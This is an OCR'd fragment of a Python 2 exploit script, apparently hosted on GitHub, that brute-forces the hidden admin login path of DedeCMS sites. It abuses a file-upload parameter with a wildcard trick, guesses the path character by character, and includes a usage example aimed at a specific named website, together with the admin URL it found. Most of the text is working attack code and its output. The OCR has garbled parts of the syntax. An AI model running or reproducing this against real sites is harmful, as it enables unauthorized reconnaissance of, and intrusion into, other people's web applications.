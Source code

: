                                            flag = 1
                                            back_dir = pre
                                            data["_FILES[tools][tmp_name]"] = "%s{p}&lt;&limg/adminico.gif"%prefix
                                            break
                                    else:
                                            data["_FILES[tools][tmp_name]"] = "%s{p}&lt;&limg/adminico.gif"%prefix
                    #print("[+] 前缀为：",back_dir)
                    flag = 0
                    for i in range(30):
                            if flag:
                                    break
                            for ch in characters:
                                    if ch == characters[-1]:
                                            flag = 1
                                            break
                                    data["_FILES[tools][tmp_name]"] = data["_FILES[tools][tmp_name]"].format(p=back_dir+ch)
                                    r = requests.post(self.target+f_name, data=data)
                                    if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                                            back_dir += ch
                                            #print("[+] ",back_dir)
                                            data["_FILES[tools][tmp_name]"] = "%s{p}&lt;&limg/adminico.gif"%prefix
                                            break
                                    else:
                                            data["_FILES[tools][tmp_name]"] = "%s{p}&lt;&limg/adminico.gif"%prefix
                    show_message['Login_url'] = self.target+"/%s"%back_dir

                    print show_message
                    return show_message
            else:
                    check_message['Enumerate'] = False
                    print check_message
                    return check_message 
```

def main(url):

N = Bute_Login(url)

N.Bute()

‘’’

usage:        python .\dede_login.py -u [http://www.chuheautism.com](http://www.chuheautism.com)

output:

(‘testing’, ‘a’)

(‘testing’, ‘b’)

(‘testing’, ‘c’)

{‘Login_url’: ‘[http://www.chuheautism.com/cha](http://www.chuheautism.com/cha)’}

‘’’ `if **name** == ‘**main**’:

if sys.argv[1] == “-u”:

main(sys.argv[2])` 
```
